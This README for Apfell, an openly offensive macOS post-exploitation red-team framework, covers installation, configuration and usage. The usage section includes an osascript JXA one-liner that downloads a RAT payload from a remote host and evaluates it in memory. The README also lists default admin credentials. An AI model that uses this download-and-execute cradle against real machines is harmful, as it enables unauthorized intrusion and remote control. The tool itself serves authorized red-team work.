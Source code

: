 # Apfell
A macOS, post-exploit, red teaming framework built with python3 and JavaScript. It's designed to provide a collaborative and user friendly interface for operators, managers, and reporting throughout mac and linux based red teaming. This is a work-in-progress as I have free time, so please bear with me.

## Details
Check out my [blog post](https://its-a-feature.github.io/posts/2018/07/bare-bones-apfell-server-code-release/) on the initial release of the framework and what the bare bones content can do.

Note: The back-end is for Python 3.5 and 3.6. It looks like Python 3.7 has some issues with the other libraries used in this project. I'm working on adjusting those versions so it works with 3.7 as well.
## Installation

- Get the code from this github:
```bash
git clone https://github.com/its-a-feature/Apfell
```
- Install and setup the requirements (Note: The Sanic webserver says it only works on Linux). The setup script will also create a default user `apfell_admin` with a default password `apfell_password` that can be used. It's recommended to change this user's password after installing though.
```bash
# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..
```

- Configure the installation in app/\_\_init\_\_.py. If you change any of the `db_*` variables here, you will need to reflect these changes in the `reset_db` script. I will eventually make one place to do all this, but right now the setup script creates things and this config file uses things.
```bash
# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '127.0.0.1'  # this will be used by the browser to callback here, edit this!
listen_port = '443'
listen_ip = '0.0.0.0'  # IP to bind to for the server, 0.0.0.0 means all local IPv4 addresses
ssl_cert_path = './app/ssl/apfell-cert.pem'
ssl_key_path = './app/ssl/apfell-ssl.key'
use_ssl = True
```
- There is currently an issue with Sanic and websockets 6/7 (tracked issue, but no pull request yet)
You need to edit Sanic with a slight update (I'm going to make a pull request for Sanic so we don't need to do this, but that'll take a little while). In the meantime, do `sudo find / -type f -name "app.py"` to find the appropriate Sanic file to edit.
In here, find the line that says `protocol = request.transport._protocol` and edit it to be:
```python
if hasattr(request.transport, '_app_protocol'): 
    protocol = request.transport._app_protocol
else: 
    protocol = request.transport._protocol
```
## Usage
- Start the server:
```bash
python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ https://0.0.0.0:443
```
By default, the server will bind to 0.0.0.0 on port 443. This is an alias meaning that it will be listening on all IPv4 addresses on the machine. You don't actually browse to https://0.0.0.0:443 in your browser. Instead, you'll browse to either https://localhost:443 if you're on the same machine that's running the server, or you can browse to any of the IPv4 addresses on the machine that's running the server. You could also browse to the IP address you specified in `server_ip = '192.168.0.119'` in the installation section.  

Apfell uses JSON Web Token (JWT) for authentication. When you use the browser (vs the API on the commandline), I store your access and refresh tokens in a cookie. This should be seamless as long as you leave the server running; however, the history of the refresh tokens is saved in memory. So, if you authenticate in the browser, then restart the server, you'll get an access denied error when your access token times out. Just clear your cookie and navigate back to the website.
- Browse to the server with any modern web browser  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Welcome.JPG)

- Create a new user:  
When you run the server, a default user account "apfell_admin" with a password of "apfell_password" is created. This allows me to setup the default c2 profiles as well since they have to be tied to a specific operator. You can either use this account or create a new one.
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Register.JPG)

- Create a new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG)

- Host the new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/web_hosting.JPG)
This will start a python simple web server in the `/tmp` directory on port `8080`.

- Pull down and execute payload in memory:
```bash
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));" 
```
- Interact with the new RAT:
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG)

### In-Server Help
Once you've logged into Apfell, you can access some additional help. 
- CommandLines - provides information about how to interact with the RESTful interface via terminal and Curl
- Documentation - will eventually provide a more thorough manual of how Apfell is organized, how to extend it, how logging works, and how to interact with the dashboards
- apfell-jxa help - provides help on the command lines that can be sent to the apfell-jxa RAT, how they work, and their parameters
